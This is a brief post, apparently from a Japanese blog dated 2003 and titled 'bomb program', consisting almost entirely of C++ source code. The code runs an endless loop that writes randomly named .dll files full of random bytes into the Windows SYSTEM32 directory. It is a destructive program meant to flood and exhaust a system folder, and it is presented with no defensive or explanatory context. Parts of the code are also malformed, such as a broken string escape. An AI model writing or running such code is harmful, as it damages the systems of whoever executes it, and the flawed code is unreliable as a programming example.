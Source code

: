 ```yaml
---
title: "爆弾プログラム"
post_id: "3093"
date: "2003-12-12T11:00:00+09:00"
draft: false
---
```



#include <string>

    #include <fstream>

    #include <cstdlib>

    void main( void ){

     using namespace std;

     string dir = "C:\\WINDOWS\SYSTEM32\";

     while( 1 ){

      string name;

      int rnd = rand();

      for( int i = 0; i < ( rnd >> 10 ); i++ ){

       name.resize( name.size() + 1 );

       name[ i ] = 0x61 + ( rand() >> 11 );

      }

      ofstream file( ( dir + name + ".dll" ).c_str() );

      for( int j = 0; j < rnd; j++ ) file << ( char )rand();
    file.close();

     }

    }
